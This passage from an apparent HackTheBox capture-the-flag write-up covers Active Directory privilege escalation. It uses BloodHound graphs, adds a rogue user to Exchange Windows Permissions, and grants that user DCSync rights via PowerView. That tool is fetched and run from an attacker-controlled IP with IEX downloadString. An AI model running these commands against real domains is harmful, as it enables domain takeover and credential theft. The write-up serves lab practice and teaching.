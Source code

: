 Now in Analysis tab Select **Shortest Path -> Shortest Path to Domain Admins From owned Principals**

<img width="247" alt="Pasted image 20240104001106" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/93c87abd-d2ab-4d4c-bc63-863681542da2">

  
Let's see if we can find any useful principals.

<img width="494" alt="Pasted image 20240104001403" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/3a069c64-b537-4992-ae64-ca950912e2d7">

Let me explain the graph to you. 
- We owned **svc_alfresco** user
- **svc_alfresco** is a member of Service Account group
- **Service account group** is a member of Privileged IT Accounts group
- **Privileged IT Accounts group** are member of group Account Operator
- Account Operator have **Generic ALL** permissions on Enterprise Key Admins group
- Enterprise Key Admin have write to **AddKeyCredientialLink** to Domain
  
So, here is a summary: **svc_alfresco** is a member of the Service account group, which is a member of Privileged IT Account, and which is a member of the Account Operator Group. This implies that we can create new users in the domain. Consequently, our user, svc_alfresco, is also a member of the Account Operator Group, which has **Generic All** rights on the Domain Key Admins group. This allows us to add our new user to that Key Admins group. In the end, the Enterprise Key Admins have the **AddKeyCredentialLink** write over the Domain, which we can use to perform a **Shadow Credentials** attack.

We can't gain admin access through a Shadow Credentials attack because it can only be used for persistence. So, I decided to check **Transitive Object Control** (the number of objects this user can gain control of by performing ACL-only based attacks in Active Directory). In other words, it represents the maximum number of objects the user can control without needing to pivot to any other system in the network, just by manipulating objects in the directory.

By exploring **Transitive Object Control**, I discovered that the **Privileged IT Account** group has access to the **Account Operator Group**, and the **Account Operator group** has **GenericAll** writes on the **Exchange Windows Permissions** group, which, in turn, has **WriteDacl** write on the Domain.

<img width="934" alt="Pasted image 20240107145103" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/9a27472e-34d7-4bb8-bb80-55743c603d5e">

So, we need to create an account and add it to the **Exchange Windows Permissions** group using **GenericAll** writes, and then grant it **DcSync** permissions through the **WriteDacl** write. We can create a user in the Domain because we have access to the **Account Operator Group**. Let's proceed by creating a user and adding it to Windows Exchange Permissions.

```powershell
$ net user 'admin' 'password' /add /domain
$ net group 'Exchange Windows Permissions' 'admin' /add /domain
```

<img width="960" alt="Pasted image 20240107150202" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/b3366f4c-dc41-4565-be6a-947a1400e254">

Now, we just need to grant **DcSync** permissions to our user. For **Dacl** abuse, we can refer to [hackerrecipes](https://www.thehacker.recipes/a-d/movement/dacl). Let's proceed to exploit it.

```powershell
# give DcSync write using PowerView
$ IEX(New-Object Net.WebClient).downloadString('http://10.10.16.25:8000/PowerView.ps1')

$ $SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
$ $Cred = New-Object System.Management.Automation.PSCredential('htb\admin', $SecPassword)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity admin -Rights DCSync
```
